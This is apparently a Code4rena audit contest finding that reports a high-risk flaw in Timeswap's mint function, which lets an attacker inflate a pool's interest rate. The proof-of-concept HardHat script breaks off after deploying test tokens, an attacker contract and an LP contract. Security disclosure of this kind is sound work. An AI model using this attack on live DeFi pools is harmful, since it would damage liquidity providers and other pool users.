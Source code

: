 ## Tags

- bug
- 3 (High Risk)
- sponsor confirmed

# [Manipulation of the Y State Results in Interest Rate Manipulation](https://github.com/code-423n4/2022-01-timeswap-findings/issues/187) 

# Handle

Rhynorater


# Vulnerability details

## Impact
Due to lack of constraints on user input in the `TimeswapPair.sol#mint` function, an attacker can arbitrarily modify the interest rate while only paying a minimal amount of Asset Token and Collateral Token. 

Disclosure: This is my first time attempting Ethereum hacking, so I might have made some mistakes here since the math is quite complex, but I'm going to give it a go. 

## Proof of Concept
The attack scenario is this: A malicious actor is able to hyper-inflate the interest rate on a pool by triggering a malicious mint function. The malicious actor does this to attack the LP and other members of the pool. 

Consider the following HardHat script:
```
const hre = require("hardhat");


//jtok is asset
//usdc is collat

async function launchTestTokens(tokenDeployer){
    //Launch a token
    const TestToken = await ethers.getContractFactory("TestToken", signer=tokenDeployer);
    const tt = await TestToken.deploy("JTOK", "JTOK", 1000000000000000)
    const tt2 = await TestToken.deploy("USDC", "USDC", 1000000000000000)
    let res = await tt.balanceOf(tokenDeployer.address)
    let res2 = await tt.balanceOf(tokenDeployer.address)
    console.log("JTOK balance: "+res)
    console.log("USDC balance: "+res2)
    return [tt, tt2]
}

async function deployAttackersContract(attacker, jtok, usdc){
    const Att = await ethers.getContractFactory("Attacker", signer=attacker)
    const atakcontrak = await Att.deploy(jtok.address, usdc.address)
    return atakcontrak
}

async function deployLPContract(lp, jtok, usdc){
    const LP = await ethers.getContractFactory("LP", signer=lp)
    const lpc = await LP.deploy(jtok.address, usdc.address)
    return lpc
```